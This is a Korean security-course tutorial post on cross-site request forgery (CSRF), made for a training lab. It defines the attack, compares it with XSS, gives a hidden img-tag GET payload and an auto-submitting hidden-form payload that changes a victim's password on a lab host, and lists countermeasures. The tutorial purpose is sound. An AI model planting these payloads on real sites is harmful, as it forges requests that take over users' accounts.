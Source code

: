 ```yaml
---
layout: post
title: CSRF
subtitle: Cross Site Request Forgery
categories: Web_Vulnerability
tags: [Web, Injection, Pentest]
---
```


**본 내용 및 실습 환경은 KISEC, 케이쉴드 주니어 교육 과정에 있음을 알려드립니다.**

## 정의

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179171240-596ab43c-2010-4802-8dd4-629fa67356e0.png">
</p>

크로스 사이트 요청 위조(Cross Site Request Forgery, CSRF)는 서버가 실제 서비스 페이지를 통한 정상요청인지 확인하지 않고 처리하는 경우 악의적인 스크립트를 이용하여 다른 사용자의 권한으로 중요기능 실행, 패스워드 변경 등의 공격을 할 수 있는 취약점이다.

즉, 사용자가 자신의 의지와는 무관하게 공격자가 의도한 행위를 특정 웹사이트에 요청하게 하는 공격을 말한다.

* CSRF 공격는 **서버**대상으로 이루어진다.

## XSS와 CSRF의 차이점

* **XSS**는 공격대상이 **클라이언트**이고, 스크립트 실행이 목적이다. 인증된 세션 없이 공격이 가능하다.

* **CSRF**는 공격대상이 **서버**고, 특정 행위(패스워드 변경)가 목적이 된다. 반드시 인증된 사용자를 공격하므로, 인증된 세션이 필요하다는 차이가 있다.

## 실습

### 0. 실습 원리

가로 세로 크기가 1 또는 0인 **img 태그**를 삽입하면 사용자는 해당 이미지가 있는지 알 수가 없다.

HTML 문서를 먼저 주고받은 후에 사용자 측 브라우저에서 HTML 문서를 파싱하다가 **img 태그**를 화면에 출력하기 위해 **src 속성**의 공격자가 의도한 URL 요청을 보내는 원리이다.

### 1. GET 방식

게시물 이동 간에 GET 방식을 이용하여 이동하는 요청이 있다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179174494-dca955e1-775a-447d-9940-ad60efe866d1.png" width = 380>
</p>

* 우리는 게시물에 스크립트를 작성하여 요청을 위조할 것이다.

```html
<img src = "요청을 위조하고자 하는 사이트" width = "1" height = "1" />
```

위 내용을 게시물에 올리고 해당 게시물을 클릭하면 원래의 게시물이 보이는게 아닌 요청을 위조하고자 하는 사이트로 이동하게 될 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179178908-61733b87-f683-4da0-bbab-efbd0fcf226e.png" width = 380>
</p>

* 이것은 게시물을 클릭하고 Burp Suite로 캡쳐한 것이다.
* 게시물에 해당 요청이 아닌 **GET 위조하고자 한 사이트**로 변경 된 것을 알 수 있다.

### 2. POST 방식

이번에는 게시물 클릭 이후 자동으로 공격자가 원하는 패스워드를 변경하는 방식으로 실습을 해볼 것이다.

패스워드 변경할 때 어떤 방식의 패킷이 움직이는 지 볼 것이다.

<p align="center">
<img src ="https://user-images.githubusercontent.com/78135526/179179788-c52c9684-85eb-4c90-b759-91455772f9ec.png" width = 380>
</p>

* POST 방식의 페이지 요청 값과, 파라미터가 어떻게 이루어지는지 알 수 있다.

```html
<iframe name="ifr"></iframe>
<form target="ifr" name = "frm" method="post"
action="http://10.200.165.9/demoshop/account/profile_edit_ok.asp">
    <input type="hidden" name="user_id" value="test">
    <input type="hidden" name="passwd" value="aa1122">
    <input type="hidden" name="passwd_q" value="%C1%C1%BE%C6%C7%CF%B4%C2+%BB%F6%B1%F2%C0%BA%3F">
    <input type="hidden" name="passwd_a" value="1">
    <input type="hidden" name="Name" value="%C3%BB%C3%BB%C3%BB">
    <input type="hidden" name="birth_yy" value="1911">
    <input type="hidden" name="birth_mm" value="11">
    <input type="hidden" name="birth_dd" value="11">
    <input type="hidden" name="birth_gbn" value="1">
    <input type="hidden" name="ismarry" value="1">
    <input type="hidden" name="address" value="%5B520-150%5D%26%23160%3B%C0%FC%B3%B2%26%23160%3B%B3%AA%C1%D6%BD%C3%26%23160%3B%C3%BB%B5%BF%26%23160%3B+111">
    <input type="hidden" name="tel1_2" value="1111">
    <input type="hidden" name="tel1_3" value="1111">
    <input type="hidden" name="whereTel1" value="1">
    <input type="hidden" name="hp1" value="">
    <input type="hidden" name="hp2" value="">
    <input type="hidden" name="hp3" value="">
    <input type="hidden" name="job" value="%B0%F8%B9%AB%BF%F8">
    <input type="hidden" name="email" value="1111%40naver.com">
    <input type="submit">
</form>
<script>
    document.frm.submit();
</script>
```

* 모든 매개변수와 공격자가 원하는 정보를 수정해서 해당 스크립트를 저장해두면 해당 게시물을 클릭했을 때, 사용자가 원하는 요청을 위조하여 패스워드가 변경되는 것이다.

## 보안 대책

1. 사용자가 요청한 내용이 위조된 요청인지 여부를 사용자 접근권한 정보가 포함된 토큰을 이용하여 세션정보에 포함된 토큰값과 요청에 포함된 토큰값의 비교를 통해 확인한다.
 
2. CAPCHA를 이용하여 추가적인 인증을 한다.
 
3. 사용자의 회원탈퇴, 정보수정에 비밀번호를 한번 더 요청한다.
